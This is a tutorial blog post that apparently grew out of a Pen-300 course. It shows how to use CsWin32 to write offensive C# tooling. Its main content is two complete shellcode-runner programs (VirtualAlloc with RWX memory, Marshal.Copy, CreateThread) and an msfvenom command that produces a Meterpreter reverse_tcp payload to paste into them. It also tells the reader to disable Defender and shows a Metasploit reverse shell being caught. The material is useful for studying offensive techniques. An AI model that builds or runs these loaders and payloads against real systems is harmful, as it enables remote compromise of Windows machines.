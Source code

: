 During Offensive Security’s [Pen 300](https://www.offsec.com/courses/pen-300/) course, you’ll get hands-on experience with various techniques for bypassing Windows defenses using C#. These methods often require the use of unmanaged code. I figure C# was chosen not just for its versatility but also because of its tight integration with PowerShell. You’ll frequently see C# code embedded in PowerShell scripts via `Add-Type` throughout the course.

Building tools to bypass Windows Defender and other defenses has traditionally involved **P/Invoke** (`Platform Invoke`), using the `[DllImport]` attribute. For years, [PInvoke.net](https://pinvoke.net/) has been the go-to repository for grabbing the necessary signatures to drop straight into your code.

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

I’ve always found `[DllImport]` statements to be a bit of a hassle, especially when PInvoke.net was either down or too slow to grab what I needed. That’s when I discovered the [CsWin32 Project](https://github.com/microsoft/CsWin32), which totally changes the game by automating the generation of Win32 `P/Invoke` signatures at compile time. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are still cases where you’ll need to fall back on PInvoke.net, especially when dealing with `Zw` or `Nt` functions, which are part of the Native API and generally lack proper documentation. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

Let’s walk through how to use CsWin32 in offensive tooling by building a simple shellcode execution program. We’ll start with the basics: allocating memory, copying the shellcode into it, and spinning up a thread to run the payload. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Tools-NuGet.png)

2. Search for CsWin32

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NuGet-CsWin32.png)

3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NativeMethods.png)


8. The APIs can be viewed under Analyzers in the `Solution Explorer`

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Analyzers.png)

From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.

![](Images/Coding/CsWin32InsteadOfPInvoke/ShellCodeRunnerCsWin32-Compiled.png)

On my Kali Linux VM, I start Metasploit console to await the reverse shell.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Metasploit.png)

...and here it is...

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-MetasploitReverseShell-01.png)


CsWin32 handles the heavy lifting by auto-generating P/Invoke signatures that are always up-to-date. It saves you from manually managing signatures and gives you a streamlined, efficient way to interface between C# and the native Windows APIs.